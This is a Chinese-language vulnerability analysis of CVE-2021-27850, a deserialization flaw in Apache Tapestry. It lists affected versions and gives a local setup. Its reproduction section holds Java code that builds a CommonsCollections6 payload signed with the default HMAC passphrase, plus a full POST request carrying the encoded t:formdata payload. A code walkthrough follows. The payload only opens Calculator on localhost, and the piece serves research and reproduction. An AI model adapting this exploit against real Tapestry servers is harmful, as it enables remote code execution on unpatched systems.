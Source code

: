 # CVE-2021-27850 Apache Tapestry 反序列化分析

By. Whoopsunix

# 0x00 概述

影响版本

[5.4.0, 5.6.2)

5.7.0

# 0x01 环境

```
mvn -Djetty.port=30001 jetty:run
```

打开 http://127.0.0.1:30001/

抓取接口修改 `t:formdata` 值

# 0x02 复现

以登录接口为例，抓取修改 `t:formdata` 值

```java
public class PayloadMake {
    public static void main(String[] args) throws Exception{
        Object object = Serializer.cc6("open -a Calculator.app");
        String HMAC_PASSPHRASE = "change this immediately";

        URLEncoderImpl urlEncoder = new URLEncoderImpl();
        ClientDataEncoderImpl clientDataEncoder = new ClientDataEncoderImpl(urlEncoder, HMAC_PASSPHRASE, null, null, null);
        ClientDataSink clientDataSink = clientDataEncoder.createSink();
        ObjectOutputStream objectOutputStream = clientDataSink.getObjectOutputStream();
        objectOutputStream.writeUTF("UTF-8");
        objectOutputStream.writeBoolean(false);
        objectOutputStream.writeObject(object);
        String payload = clientDataSink.getClientData();
        System.out.println(payload);
    }
}
```

```http
POST /TapestryDemo/login.login HTTP/1.1
Host: 127.0.0.1:30001
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:103.0) Gecko/20100101 Firefox/103.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 1080
Origin: http://127.0.0.1:30001
Connection: close
Referer: http://127.0.0.1:30001/TapestryDemo/login.login
Cookie: JSESSIONID=1honjvjbatpn5; JSESSIONID=DC46B65E175C8D3CC2A5BF30BC47D947
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

t%3Asubmit=%5B%22submit_0%22%2C%22submit_0%22%5D&t%3Aformdata=Jk3rI%2b%2b6ELVFZbc%2biaf4aE2zs9A%3d%3aH4sIAAAAAAAAAJWUTWjUQBTHX7Ld1raK2y2UghR71GITDz1U96C1WF3YVtG1FPfidHe6mzaZxMlkzbYi6MGCXnpYKSJoD73ZCuLZQ/HgQSzYi6IXEUQFBT151JeP3Wb9qg0kmWTm/3v/994kK18gfmkHxM9lR/oHwebQMU3KRHGEpisniV0aJVa85fXak64LL2Igj0CbbpLCCMkLk6ehVZQ4tUumXnCtI0fBO3YiDCCBp4SwAZMXFWKRfIkqedMwTGbjXddpXmjeeIZWykR3qJLVaAFDHWeCV26sbtw5tLb3jQxyBmK4REAy47lSdcKK6qnJaZSncMogloDdwZRnWEVCysV3koux%2b7aIjWolQ2YrKGLvq9fuVhLVGEgZaJnys8OoBzKIUAOEGiLUCELNcsLsKZMblGNcjHl4i5hTDvPYtjJcIhqjhQjg4NPFz/tmF5tkkHKwS4vM2AL6c9uz4vBQ8i8zUcnj8b5vrwa6b8sAroXNi2Myqf9OBp8EYSICnCgvdAzJD6uyV9FWrbbiIlyBmGuVa9vMa6hyxmFCMyhsHturZZqVzRnKI9HnP/6Ymbu8PihDLAdxbYgXsYaduT9tonZtlIqSWRgjBm3cZ2cF11gxlcMlpwknRrZiUcQko5hhndh2UO8QH6QU4hfWJ%2b4l7P16raqygLYiFWHCKEpGRQHsftfLB8%2ben693AgS0oiZw6XgF3OORsISJTWngdenr8uBs6tExX1r2l9retdOXdXsyqz5EbrPmV%2b5v0CCJhrb40O4Q%2bkvOYb1WN8Y/fOqZO1HzLwnoMi3KevtJ7zDR845OsGvYWPxOm6hL8/Xwkjfo9eG77YYdkmaCFilPvlta/n51HtsqpSHu/zjcBsdjjjFJ%2bfWVWz3t1bc36w58JPz2gwLX9Saa3Z/vvffPBAUAAA%3d%3d&email=11&password=123&submit_0=Sign+in
```

# 0x03 分析

跟进 `org.apache.tapestry5.corelib.components.Form#executeStoredActions()` 方法，该方法处理来自 POST 请求的 `t:formdata` 参数值。

![image-20231110114711051](attachments/image-20231110114711051.png)

继续跟进到 `org.apache.tapestry5.internal.services.ClientDataEncoderImpl#decodeClientData()` 方法，将数据 Base64 解码再通过 `validateHMAC()` 方法后 GZIP 解码

![image-20231110114951237](attachments/image-20231110114951237.png)

`validateHMAC()` 中校验是否 hmacKey 相同

![image-20231110135820940](attachments/image-20231110135820940.png)

key 值在 `AppModule` 中定义

![image-20231110135912547](attachments/image-20231110135912547.png)